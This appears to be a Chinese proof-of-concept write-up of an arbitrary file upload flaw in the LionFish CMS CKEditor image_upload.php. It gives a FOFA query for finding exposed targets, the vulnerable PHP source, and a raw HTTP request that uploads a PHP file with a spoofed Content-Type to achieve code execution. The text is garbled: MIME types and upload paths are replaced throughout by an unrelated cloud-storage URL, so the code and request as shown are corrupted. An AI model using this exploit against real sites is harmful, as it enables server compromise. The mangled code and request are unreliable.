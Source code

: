 # 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## FOFA

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/szy-1-20220314000211646.png)



漏洞文件为 CK编辑器的 image_upload.php



```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```



其中使用 **Content-Type:** [**http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif**](http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif)  即可绕过上传PHP文件



```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php phpinfo();?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```



![img](../../../.vuepress/public/img/szy-5.png)



访问返回的文件路径



```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```



![img](../../../.vuepress/public/img/szy-4.png)